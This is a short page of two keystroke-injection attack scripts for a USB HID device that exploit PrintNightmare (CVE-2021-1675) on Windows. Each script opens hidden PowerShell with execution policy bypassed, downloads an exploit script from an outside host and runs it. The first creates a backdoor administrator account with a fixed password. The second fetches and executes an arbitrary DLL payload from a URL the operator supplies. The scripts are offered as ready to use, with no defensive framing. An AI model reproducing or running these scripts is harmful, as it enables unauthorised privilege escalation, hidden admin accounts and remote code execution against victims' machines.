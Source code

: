 **CVE-2021-1675**

Reference https://github.com/calebstewart/CVE-2021-1675
**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create an administrative user and spawn a command prompt as the new administrative user.**
```REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create administrative user and spawn a command prompt as the new administrative user.
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare"
ENTER
DLEAY 1000
GUI r
DELAY 150
STRING cmd
DELAY 150
ENTER
DELAY 150
STRING runas /user:adm1n cmd.exe
ENTER
DELAY 150
STRING P@ssw0rd
DELAY 150
ENTER
```

**CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor**

Replace the `ESCAPED URL TO DLL HERE` with the URL to your desired DLL payload
```
REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Hidden Payload DLL Executor
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('ESCAPED URL TO DLL HERE',\"$env:temp\p4yl0ad.dll\"); IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare -DLL \"$env:temp\p4yl0ad.dll\""
ENTER
```